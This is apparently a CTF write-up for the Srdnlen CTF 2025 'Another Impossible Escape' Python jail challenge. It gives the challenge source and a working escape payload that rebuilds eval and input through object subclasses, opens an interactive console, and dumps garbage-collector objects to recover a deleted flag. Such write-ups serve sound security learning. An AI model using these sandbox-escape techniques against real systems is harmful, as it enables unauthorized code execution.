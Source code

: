 ```yaml
---
title: Srdnlen CTF 2025 - Another Impossible Escape
date: '2025-01-19'
lastmod: '2025-01-20T22:03:00+02:00'
categories:
- writeup
- srdnlen25
tags:
- misc
- pyjail
authors:
- babelo
---
```


## Challenge

```py
#!/usr/bin/env python3
import sys
import re

BANNER = r"""
############################################################
#       _                _   _                             #
#      / \   _ __   ___ | |_| |__   ___ _ __               #
#     / _ \ | '_ \ / _ \| __| '_ \ / _ \ '__|              #
#    / ___ \| | | | (_) | |_| | | |  __/ |                 #
#   /_/   \_\_| |_|\___/ \__|_| |_|\___|_|                 #
#      ___                               _ _     _         #
#     |_ _|_ __ ___  _ __   ___  ___ ___(_) |__ | | ___    #
#      | || '_ ` _ \| '_ \ / _ \/ __/ __| | '_ \| |/ _ \   #
#      | || | | | | | |_) | (_) \__ \__ \ | |_) | |  __/   #
#     |___|_| |_| |_| .__/ \___/|___/___/_|_.__/|_|\___|   #
#    _____          |_|                                    #
#   | ____|___  ___ __ _ _ __   ___                        #
#   |  _| / __|/ __/ _` | '_ \ / _ \                       #
#   | |___\__ \ (_| (_| | |_) |  __/   (Author: @uNickz)   #
#   |_____|___/\___\__,_| .__/ \___|                       #
#                       |_|                                #
#                                                          #
############################################################
"""

FLAG = "srdnlen{fake_flag}"
del FLAG

class IE:
    def __init__(self) -> None:
        print(BANNER)
        print("Welcome to another Impossible Escape!")
        print("This time in a limited edition! More information here:", sys.version)

        self.try_escape()
        return

    def code_sanitizer(self, dirty_code: str) -> str:
        if len(dirty_code) > 60:
            print("Code is too long. Exiting.")
            exit()

        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "w", "f", "q", "y", "h", "p", "v", "z", "r", "x", "k"]
        banned_symbols = [" ", "@", "`", "'", "-", "+", "\\", '"', "*"]
        banned_words = ["input", "self", "os", "try_escape", "eval", "breakpoint", "flag", "system", "sys", "escape_plan", "exec"]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        limited_items = {
            ".": 1,
            "=": 1,
            "(": 1,
            "_": 4,
        }

        for item, limit in limited_items.items():
            if dirty_code.count(item) > limit:
                print("You are trying to break the limits. Exiting.")
                exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code

    def escape_plan(self, gadgets: dict = {}) -> None:
        self.code = self.code_sanitizer(input("Submit your BEST Escape Plan: ").lower())
        return eval(self.code, {"__builtins__": {}}, gadgets)

    def try_escape(self) -> None:
        tries = max(1, min(7, int(input("How many tries do you need to escape? "))))

        for _ in range(tries):
            self.escape_plan()

        return

if __name__ == "__main__":
    with open(__file__, "r") as file_read:
        file_data = re.sub(r"srdnlen{.+}", "srdnlen{REDATTO}", file_read.read(), 1)

    with open(__file__, "w") as file_write:
        file_write.write(file_data)

    IE()
```

## Solve

This challenge is a pyjail with the following limitations:
 - We can't use the following characters:
 ```
 mwfqyhpvzrxk @`\'-+\"*
 ```
 - We can't use the following words:
 `input, self, os, try_escape, eval, breakpoint, flag, system, sys, escape_plan, exec`
 - We can only use ASCII characters
 - Builtins are removed
 - Also, some characters have a limited usage
    - We can only use `)` once
    - We can only use `.` once
    - We can only use `=` once
    - We can only use `_` four times

A few important things:
 - We can execute a maximum of 7 payloads, with a limit of 60 characters each.
 - The variables defined by us will persist between every payload execution.
 - The flag is in a variable called `FLAG`, which is deleted before executing our payloads and the string will be replaced with `srdnlen{REDATTO}`

Since we can't use certain characters, [this script](LINK HERE!!!!!!!!!!!!!!!!!!!) created two years ago by me, could come in handy.

My idea consists in grabbing `eval` and `input` so I can execute arbitrary code. Since there's a character blacklist I had to build the payload while minding the constraints:

```py
(builtins:={}.__class__.__subclasses__()[2].total.__builtins__,lst:=[].__class__(builtins),input:=builtins[lst[28]],eval:=builtins[lst[20]],eval(input(),builtins))
# Inside eval: __import__("code").interact()
```

Now that we have an interactive console, we can restore the flag by dumping all the objects tracked by the python garbage collector:

```py
__import__("gc").get_objects()
```

### Final exploit

```py
[a:={}.__class__]
[b:=a.__subclasses__]
[b:=b()[2].total]
[b:=b.__builtins__]
[a:=[].__class__(b)]
[c:=[b[a[20]],b[a[28]]()]]
__import__("code").interact()
[d:=c[0](c[1],b)]

__import__("gc").get_objects()
```
